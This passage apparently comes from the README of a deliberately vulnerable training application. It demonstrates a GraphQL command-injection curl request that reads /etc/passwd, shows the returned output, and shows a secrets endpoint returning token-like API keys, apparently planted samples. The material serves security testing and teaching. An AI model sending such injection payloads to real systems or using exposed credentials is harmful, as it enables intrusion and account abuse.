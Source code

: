     </details>

    <details>
      <summary>Another Example Exploitation on graphQL</summary>

      To demonstrate another SSTI attack, you can use the following `curl` command:

      ```bash
      curl -i -X POST -H Content-Type:application/json -H Accept:application/json 'https://brokencrystals.com/graphql' -d '{"query":"query ($getCommandResult_command: String!) { getCommandResult (command: $getCommandResult_command) }" ,"variables":{"getCommandResult_command":"/bin/cat /etc/passwd "}}'
      ```

      The response includes a result of code execution:

      ```
      {"data":{"getCommandResult":"root:x:0:0:root:/root:/bin/sh\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000::/home/node:/bin/sh\n"}}%
      ```

    </details>

- **Secret Tokens** - The /api/secrets and /api/config contains many secret tokens returns the server's configuration, including a various of API keys.
    <details>
      <summary>Example Exploitation of Secret Tokens</summary>

      To demonstrate the exposure of secret tokens, you can use the following `curl` commands:

        ```bash
        curl https://brokencrystals.com/api/secrets
        ```

        Response:

        ```json
        {
          "codeclimate": "CODECLIMATE_REPO_TOKEN=62864c476ade6ab9d10d0ce0901ae2c211924852a28c5f960ae5165c1fdfec73",
          "facebook": "EAACEdEose0cBAHyDF5HI5o2auPWv3lPP3zNYuWWpjMrSaIhtSvX73lsLOcas5k8GhC5HgOXnbF3rXRTczOpsbNb54CQL8LcQEMhZAWAJzI0AzmL23hZByFAia5avB6Q4Xv4u2QVoAdH0mcJhYTFRpyJKIAyDKUEBzz0GgZDZD",
          "google_b64": "QUl6YhT6QXlEQnbTr2dSdEI1W7yL2mFCX3c4PPP5NlpkWE65NkZV",
          "google_oauth": "188968487735-c7hh7k87juef6vv84697sinju2bet7gn.apps.googleusercontent.com",
          "google_oauth_token": "ya29.a0TgU6SMDItdQQ9J7j3FVgJuByTTevl0FThTEkBs4pA4-9tFREyf2cfcL-_JU6Trg1O0NWwQKie4uGTrs35kmKlxohWgcAl8cg9DTxRx-UXFS-S1VYPLVtQLGYyNTfGp054Ad3ej73-FIHz3RZY43lcKSorbZEY4BI",
          "heroku": "herokudev.staging.endosome.975138 pid=48751 request_id=0e9a8698-a4d2-4925-a1a5-113234af5f60",
          "hockey_app": "HockeySDK: 203d3af93f4a218bfb528de08ae5d30ff65e1cf",
          "outlook": "https://outlook.office.com/webhook/7dd49fc6-1975-443d-806c-08ebe8f81146@a532313f-11ec-43a2-9a7a-d2e27f4f3478/IncomingWebhook/8436f62b50ab41b3b93ba1c0a50a0b88/eff4cd58-1bb8-4899-94de-795f656b4a18",
          "paypal": "access_token$production$x0lb4r69dvmmnufd$3ea7cb281754b7da7dac131ef5783321",
          "slack": "xoxo-175588824543-175748345725-176608801663-826315f84e553d482bb7e73e8322sdf3"
        }
        ```
